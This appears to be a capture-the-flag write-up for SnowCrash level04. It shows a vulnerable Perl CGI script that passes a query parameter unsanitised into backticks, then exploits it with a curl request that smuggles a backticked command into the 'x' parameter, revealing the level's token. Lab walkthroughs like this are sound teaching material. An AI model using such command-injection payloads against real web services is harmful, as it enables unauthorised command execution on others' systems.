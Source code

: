 # level04

Using ls we can directly see there is a perl script.

```bash
level04@SnowCrash:~$ ls
level04.pl
```

Let's take a look at the code.

```perl
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Ok, we can see a potential exploit on the echo line. Argument $y is passed from $_[0] (First x argument).

Let's try to exploit it. We will decorate command with ``` because we want to script to evaluate our command.

```bash
level04@SnowCrash:~$ curl "http://localhost:4747/level04.pl?x=\`getflag\`"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

Perfect ! Let's go to level05.

```bash
level04@SnowCrash:~$ su level05
Password: ne2searoevaevoem4ov4ar8ap
level05@SnowCrash:~$ 
```
